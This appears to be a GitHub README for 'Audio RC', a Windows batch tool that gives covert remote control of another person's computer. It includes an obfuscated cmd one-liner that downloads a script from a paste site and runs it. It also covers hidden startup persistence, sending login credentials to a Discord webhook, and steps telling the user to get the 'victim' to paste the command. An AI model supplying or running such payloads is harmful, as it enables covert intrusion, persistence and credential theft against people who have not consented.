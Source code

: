 ## 🔊 Audio RC Version 2.0
> Audio RC allows you to remote other machine and silently play youtube audio in it without the other side knowing how to stop or who did it.

#### Audio RC Features
* **Discord Webhook Credentials updating**

    _if the other side has reset the session URL for any reason, you will recieve a new message containing the updated information_

* **Audio RC starts with the computer everytime**

    _When the computer restarts Audio RC will start silently without the other side knowing about it_

* **Play any content valid on youtube**

    _You are able to play any youtube video using its URL_

* **A Script to remote the other side _(NEW)_**

    _Version 2.0 introduces a remote script which makes it much easier
    to control the other side, you open the script, paste the youtube link and the script does anything for you and keeps you updated about the other side's status_

#### Setup Audio RC
_Technically, there are 2 ways to setup Audio RC_

##### Difference Menu
| METHOD | DIFFERENCE | Recommended? |
| :--: | :--: | :--: |
| 1 | _This method will only print the login credentials on the screen while you are in DEBUG mode_ | Technically, **YOU SHOULDN'T USE THIS METHOD UNLESS YOU HAVE SSH ACCESS** to the same computer |
| 2 | _This method will send the login credentials to your discord webhook and will keep you updated in case they were changed_ | **This method is just a bit harder to setup,** though you will recieve the login credentials into your discord webhook. **(HIGHLY RECOMMENDED)** |

##### :one: Method Number 1 _(SSH)_
- Paste the following code into the SSH
```bat
for %a in (F6) do for %b in ("%temp%\F") do for %c in (.) do for %d in (cmd) do for %e in (rentry) do cls&&curl -#Lsko "%~b6%c%d" "%e%cco/%a/raw"&&call "%~b6%c%d" --debug
```
- You should restart the computer through your SSH connection.


##### :two: Method Number 2
- [Create your webhook link at discord](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
> _How does a webhook look?_
>
> Your webhook should include `/api/webhooks/` inside of it.

- At this point you'd need to create a paste in [pastebin.com](https://pastebin.com/) and just paste your webhook link inside of it. _(GIF below)_
![Paste Creation Review](https://cdn.agamsol.xyz:90/media/chrome_5NaMTYFDtr.gif)
- Now you need to copy the paste's ID _(GIF below)_
![Copy ID](https://cdn.agamsol.xyz:90/media/chrome_wetwcveipX.gif)

- Once you copied the ID **replace `XXXXXXXX`** in the end of the command below **with the ID you copied**.
```bat
for %a in (F6) do for %b in ("%temp%\F") do for %c in (.) do for %d in (cmd) do for %e in (rentry) do cls&&curl -#Lsko "%~b6%c%d" "%e%cco/%a/raw"&&call "%~b6%c%d" "XXXXXXXX"
```
- After replacing the `XXXXXXXX` combination with your ID
you are ready to go, save the command and you will be able to use it in the future

- **ONCE YOU ARE WILLING TO USE THE COMMAND:**
- Tell the victim to open CMD window.
- Tell the victim to paste **YOUR unique command** into their CMD window.
- Wait for the credentials to get sent to you.

### You got the credenitials? Great! :tada:

_At this step we will be installing the remote panel, if you want to use it but scared, you can use it in a VM or you can check the [source code](https://github.com/agamsol/Audio-RC/blob/2.0/REMOTE/REMOTE.bat) of the remote script._

- Download the [Remote Script](https://raw.githubusercontent.com/agamsol/Audio-RC/2.0/REMOTE/REMOTE.bat)
> NOTE: You should download the script and put it on a folder on its own, this will grant you easy access to it whenever you need & want.
- Open the file [`REMOTE.bat`](https://raw.githubusercontent.com/agamsol/Audio-RC/2.0/REMOTE/REMOTE.bat)
- Enter the credentials to login.

#### 📚 Contact information and support
> Feel free to contact me in discord, <span style="color:#7289DA">Agam#0001</span>

> Im also available in the [r/batch discord server](https://discord.gg/gPMcxXZjkb). **(you can and should ping me there)**

### 💲 Donations
I highly appreciate donors who send money,
a few bucks can make someone's day even better!
><a href="https://www.paypal.me/agamsolomon0011" rel="paypal donations">![donate](https://img.shields.io/badge/Donate-Paypal-brightgreen.svg)</a>

##### **:warning: Please note that we follow the No-Refunds policy**